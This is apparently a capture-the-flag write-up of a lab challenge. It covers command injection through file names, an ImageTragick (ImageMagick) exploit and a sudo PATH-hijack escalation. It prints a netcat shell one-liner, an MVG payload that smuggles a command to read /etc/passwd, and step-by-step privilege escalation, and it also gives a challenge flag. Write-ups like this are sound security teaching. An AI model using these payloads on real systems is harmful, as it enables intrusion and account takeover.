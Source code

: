 It's rather simple. For every file in the uploads folder, run identify (from ImageMagik tools) on that file.

At the first time we tried pwning the `$file` variable to execute multiple command by creating a file named `;program` but this wasn't working because `ls` was splitting spaces in file and also you can't insert `/` in filenames (like `;nc -e /bin/bash -lvp 8080`).

We returned to the identify command and noticed that imagemagik wasn't updated since 2014. All the clues were pointing at [ImageTragik](https://imagetragick.com/).

Long story short this vulnerability allowed code execution through specially crafted images.  
Knowing how the vulnerability worked we modified the following PoC:

	push graphic-context
	viewbox 0 0 640 480
	fill 'url(https://scusette.it/nonscrivowriteups.jpg"|cat "/etc/passwd)'
	pop graphic-context

We then substituted the `cat "/etc/passwd` with a common python reverse shell, put it into a `exploit.mvg` file and moved it to uploads. Kids, remember `+x` permission ;)  
We then waited... and waited... and waited... (cronjobs exploits are always a pain in the a\*\*)

w00t w00t, the reverse shell suddenly came up and "whoami" answered us with "level1". Gg.

After escalating to *level1* we added to the `.ssh/authorized_keys` a newly generated throw-away public key and logged in via ssh.  
In `/home/level1/secrets/flag` we got **flag5**: `T_CTF{y4_kn0w_kn0wn_sP100i7z_gG_br0}` 

Now we were in, with a decent ssh connection and a decent terminal.  
We went through the usual routine of checking all the stuff that need to be checked in order to escalate privileges and a thing that immediately came to our eyes was the output of the following command:

	sudo -l

which suggested we could run a file named `add_copyright` with the permission of user `level2`.  
As usual we ran `strings` against that binary to see if we could find something interesting in it and the following strings came out:

	Now we will add the copyright to the photo!
	./copyrighter photo.jpg 2>/dev/null
	Copyright failed!

Mmmmh. No absolute path? That's great! We quickly made a directory inside `/tmp` named `bin` and copied `/bin/sh` in there, renaming it `copyrighter`. After that we created a script named `photo.jpg` with the following content:

	#!/bin/sh

	/bin/sh

Then we ran the following command `sudo -u level2 /opt/copyrightreminder/add_copyright` which executed the "copyrighter" (former sh) in our folder which in turn executed `photo.jpg` that gave me a shell as *level2*. Cool as a cucumber ;)

*Note*: sudoers was setting it's secure path but didn't excluded `.` neither `~/bin` and `~/.local/bin`.
If you had permissions and a `./copyrighter` file in your `cwd` this works flawless.
